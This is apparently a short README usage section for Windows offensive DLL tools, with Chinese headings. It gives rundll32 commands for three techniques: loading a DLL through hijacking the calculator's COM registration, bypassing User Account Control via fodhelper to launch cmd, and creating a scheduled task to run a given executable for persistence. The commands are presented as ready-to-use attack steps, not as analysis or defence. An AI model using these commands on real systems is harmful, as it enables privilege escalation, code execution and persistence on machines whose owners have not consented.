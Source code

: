 # Usage:
### calcHijack
计算器的com劫持
```
rundll32.exe calcHijack.dll,calcHijack C:\users\test\test.dll
```
### fodhelper
uac bypass
```
rundll32.exe fodhelper.dll,fodhelper cmd
```
### schtask
计划任务的dll实现
```
rundll32.exe schtask.dll,CreateTask C:\users\test\test.exe
```

